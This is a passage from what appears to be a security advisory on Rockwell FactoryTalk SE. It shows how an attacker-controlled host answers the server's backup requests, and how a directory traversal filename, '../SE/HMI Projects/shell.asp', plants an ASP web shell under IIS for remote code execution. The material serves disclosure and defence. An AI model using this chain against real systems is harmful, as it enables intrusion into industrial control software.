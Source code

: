 `<RNA_ADDRESS>` is an internal address scheme used by FactoryTalk; it does not matter for exploitation purposes and can be safely ignored.

In fact, the request content can be completely ignored by `<LHOST>`, which only has to respond with:

```
HTTP/1.1 OK
(...)
<FILENAME>
```
> Snippet 3: *BackupHMI* response from `<LHOST>` to `<TARGET>`


After receiving this response, `<TARGET>` will send a HTTP GET request to the following URL in `<LHOST>`:

```
http://<LHOST>/rsviewse/_bak/<FILENAME>
```
> Snippet 4: *bak* request from `<TARGET>` to `<LHOST>`



To which `<LHOST>` should respond with whatever content it wants to be written to `<FILENAME>` on `<TARGET>`:

```
<FILE_DATA>
```
> Snippet 5: *bak* response from `<LHOST>` to `<TARGET>`



`<TARGET>` will then proceed to write `<FILE_DATA>` to `<FACTORYTALK_HOME>\_bak\<FILENAME>`, perform some actions on it (these actions were not determined since it did not matter for exploitation purposes), and finally delete `<FILENAME>`. All of these actions all occur in less than a second.

The default `<FACTORYTALK_HOME>` for FactoryTalk SE is *`C:\\Users\\Public\\Documents\\RSView Enterprise`*.




## Vulnerability #2: Directory Traversal

Once the first vulnerability was identified, the next objective was to obtain remote code execution. At this point, the data in the file and the filename were completely controllable, but this did not mean it was possible to execute arbitrary code.

The easiest way to achieve RCE is to write a file with ASP or ASPX code to the IIS directory.
This was easily achieved by abusing a directory travesal vulnerability in the `<FILENAME>` provided in **Snippet 3**. If `<LHOST>` responds as in *Snippet 3* with `<FILENAME>` set to:

```
../SE/HMI Projects/shell.asp
```
> Snippet 6: directory traversal response



`<TARGET>` will then write `<FILE_DATA>` (taken from **Snippet 5**) to `<FACTORYTALK_HOME>\\SE\\HMI Projects\\shell.asp`. Since this directory is configured as a virtual directory in IIS, the ASP file will be immediately executed once it is accessed.
